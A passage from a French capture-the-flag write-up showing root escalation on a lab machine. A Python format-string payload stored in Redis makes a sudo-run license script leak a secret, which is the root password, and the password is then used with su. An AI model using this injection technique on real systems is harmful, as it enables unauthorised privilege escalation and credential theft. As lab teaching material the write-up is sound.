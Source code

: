 Ensuite, nous pouvons configurer un nouveau nom d'utilisateur pour `t` :

```bash
cooper@format:~$ redis-cli -s /var/run/redis/redis.sock HSET t username {license.__init__.__globals__[secret]}
(integer) 0
cooper@format:~$ redis-cli -s /var/run/redis/redis.sock HGET t username
"{license.__init__.__globals__[secret]}"
```

Et lui attribuer une licence via le script pour lire le secret , qui s’avérera - après décorticage - être le mot de passe de root :

```bash
cooper@format:~$ sudo /usr/bin/license -p t

Plaintext license key:
------------------------------------------------------
microblogunCR4ckaBL3Pa$$w0rd%6y:S<!:"${m_:c]?CB?U%3D.7cp?@6xTP\hBQ3xtt

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABk9EsEKkm2fe_Pexevukcv1YzoDprq9uoSn0nb6MUrFp8cdySPi0_V5s2Ll1u7wELhOoDjVL1l_jzmRLzvE3RDL37-AwsjuzxNhdX6W4oroaFxxThrtqJFeBrD9x7BocgQ0Cgu5MfDCOWpYgLm24cbgBYeX3dNcp4y_cjgvgnad2fXUx0=
cooper@format:~$ su root
Password: // unCR4ckaBL3Pa$$w0rd
root@format:/home/cooper# whoami
root
root@format:/home/cooper#
```
